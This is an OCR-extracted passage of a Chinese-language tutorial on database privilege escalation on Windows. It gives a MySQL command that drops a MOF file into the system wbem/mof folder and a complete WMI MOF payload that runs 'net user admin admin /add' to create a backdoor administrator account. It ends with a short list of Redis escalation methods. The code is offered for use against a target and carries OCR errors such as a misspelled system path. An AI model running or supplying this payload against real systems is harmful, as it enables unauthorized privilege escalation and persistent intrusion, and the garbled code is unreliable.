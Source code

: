 我们把 mof 文件上传到 C:/wmpub/nullevt.mof，之后再将这个文件复制到 c:/windows/sysrtem32/wbem/mof/nullevt.mof 目录下

```
Select load file(‘C:/wmpub/nullevt.mof’)intodumpfile’c:/windows/sysrtem32/wbem/mof/nullevt.mof’
```

将这段代码复制到 mof 后缀的文件

```
\# pragma namespace("\\.\\root\\subscription")

instance of EventFilter as $EventFilter{ EventNamespace ="Root\\Cimv2"; Name = "filtP2"; Query = "Select \* From InstanceModificationEvent "

"Where TargetInstance Isa \\"Win32\_LocalTime\\" "

"And TargetInstance.Second = 5";

QueryLanguage = "WQL";

};

instance of ActiveScriptEventConsumer as $Consumer

{

Name = "consPCSV2";

ScriptingEngine = "JScript";

ScriptText =

"var WSH = new

ActiveXObject(\\"WScript.Shell\\")\\nWSH.run(\\"net.exe user admin admin /add")";

};

instance of \_\_FilterToConsumerBinding

{

Consumer = $Consumer;

Filter = $EventFilter;

};
```

把这个 mof 文件上传到目标机中，可以修改代码，进行命令执行。目前 mof 提权方法用的比较少了，因为比较麻烦，建议 MySQL 数据库提权还是用 udf 比较好。

### Redis 提权

> 1、开机启动脚本
> 
> 2、一般情况下，由于使用源码编译安全的，默认以 root 权限运行，通过未授权进入数据库，可以写任意文件，还可以用 exp 直接执行命令。
> 
> 3、mof 脚本
> 
> 4、计划任务
> 
> 5、ssh 公钥
